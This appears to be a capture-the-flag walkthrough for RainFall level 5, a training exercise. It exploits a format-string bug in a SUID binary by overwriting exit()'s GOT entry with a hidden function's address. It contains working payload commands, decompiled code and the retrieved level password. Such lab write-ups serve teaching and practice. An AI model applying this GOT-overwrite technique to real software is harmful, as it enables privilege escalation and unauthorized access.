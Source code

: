 # Level 5 Walkthrough

## Who am I?

```bash
level5@RainFall:~$ id
uid=2026(level5) gid=2026(level5) groups=2026(level5),100(users)
```

## Where am I?

```bash
level5@RainFall:~$ ls -l
-rwsr-s---+ 1 level6 users 5252 Mar  6  2016 level5*
```

We are in possession of a SUID binary owned by `level6`. Our objective is to exploit this binary to execute a command as `level6` and retrieve the contents of the `.pass` file.

---

## Program Behavior

Running the binary:

```bash
level5@RainFall:~$ ./level5
hello
hello
```

No crash, even when injecting long strings:

```bash
level5@RainFall:~$ python -c "print('A'*200)" | ./level5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This suggests the program uses `fgets()`, which safely limits input size.

---

## Decompiled Structure (via Ghidra)

```c
void main(void)
{
  n();
  return;
}

void n(void)
{
  char local_20c [520];

  fgets(local_20c, 0x200, stdin);
  printf(local_20c);

  exit(1);
}

void o(void)
{
  system("/bin/cat /home/user/level6/.pass");
  _exit(1);
}
```

---

## Format String Vulnerability

`printf()` is called with user input, without format string control:

```c
printf(local_20c); // vulnerable
```

This introduces a classic format string vulnerability. We can try to leak stack values:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level5
```

We continue until we spot `0x41414141`:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level5
```

We find `41414141` (AAAA) at the **4th** position on the stack. So we will use `%4$n`.

---

## Exploitation Strategy

We know:

* `exit()` is called at the end of `n()`
* `exit()` has an entry in the GOT at `0x08049838`, which stands for Global Offset Table. The GOT is a section in memory used by dynamically linked executables to hold the addresses of external functions. When a function like `exit()` is first called, the binary looks up its actual address via the GOT. Since the GOT is writable, it becomes a valuable target for attackers who want to hijack control flow by replacing the function's address with another, in this case, pointing `exit()` to the hidden `o()` function.
* There's a hidden function `o()` at `0x080484a4` which prints the flag

We want to overwrite the GOT entry of `exit` to point to `o`, so that when `exit()` is called, it executes `o()` instead.

We verify addresses:

```bash
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

```gdb
(gdb) info functions o
0x080484a4  o
```

Now we build a payload to overwrite the GOT entry of `exit()` (at `0x08049838`) with the value `0x080484a4` using the format string exploit.

We test a simple probe:

```bash
python -c 'print "\x38\x98\x04\x08" + " %x" * 10' > /tmp/exploit
cat /tmp/exploit | ./level5
8 200 b7fd1ac0 b7ff37d0 8049838 20782520 25207825 78252078 20782520 25207825 78252078
```

We observe that the address lands at the 4th argument → use `%4$n`.

### Final Payload

We need to print `134513828` characters (decimal value of `0x080484a4`) before `%n` is triggered.

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
cat /tmp/exploit - | ./level5
```

This replaces the GOT entry of `exit()` with `o()`, which is executed as soon as `exit()` is called:

```bash
                                               512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Conclusion

This level demonstrates how a format string vulnerability can be used to overwrite function pointers inside the GOT. Specifically, we:

* Identified that `printf()` is called with user input and no format string
* Found a hidden function `o()` that reveals the flag
* Determined the GOT address of `exit()` → `0x08049838`
* Overwrote that address with `0x080484a4` (address of `o()`)
* Used `%n` at offset 4 on the stack to perform the write
* Upon program exit, our payload triggered execution of `o()` and revealed the flag

Dynamic analysis with GDB and memory inspection was essential to confirm addresses and offsets precisely, allowing a reliable exploitation strategy.

---

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level5/` : folder containing the reconstructed C code from Ghidra

